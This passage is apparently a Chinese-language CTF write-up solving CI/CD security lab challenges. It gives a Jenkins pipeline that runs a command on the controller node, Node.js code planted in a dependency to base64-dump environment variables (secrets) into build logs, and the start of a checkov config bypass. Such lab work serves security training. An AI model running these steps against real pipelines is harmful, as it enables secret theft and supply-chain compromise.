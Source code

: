## 0x05 Cheshire Cat   CICD-SEC-4、CICD-SEC-5

用前面介绍过的指定节点执行命令

```
pipeline {
    agent {label 'built-in'}
    stages {
        stage ('poc') {
            steps {
                sh 'touch /tmp/pwn.txt'
            }
        }
    }
}
```

## 0x06 Twiddledum  CICD-SEC-3

twiddledum 是根据 twiddledee 的 tag 变动来执行的，修改 twiddledee 的 index.js 为

```
const child_process = require('child_process');
child_process.exec('env|base64 -w 0',function(error, stdout, stderr){console.log(stdout)});
```

提交后手动 build 

```
git tag 1.2.0 HEAD
git push origin 1.2.0
```

## 0x07 Dodo  CICD-SEC-1

引入 [checkov](https://github.com/bridgecrewio/checkov) 产生的安全问题，这个工具会读取仓库中的 .checkov.yml 配置文件作为 checkov 运行的配置，具体原理参考 [这篇文章](https://www.cidersecurity.io/blog/research/malicious-code-analysis-abusing-sast-misconfigurations-to-hack-ci-systems/) 。

复现修改 main.tf 的 ACL 为 public-read

![image-20240328114422749](attachments/image-20240328114422749.png)

创建 .checkov.yml 文件

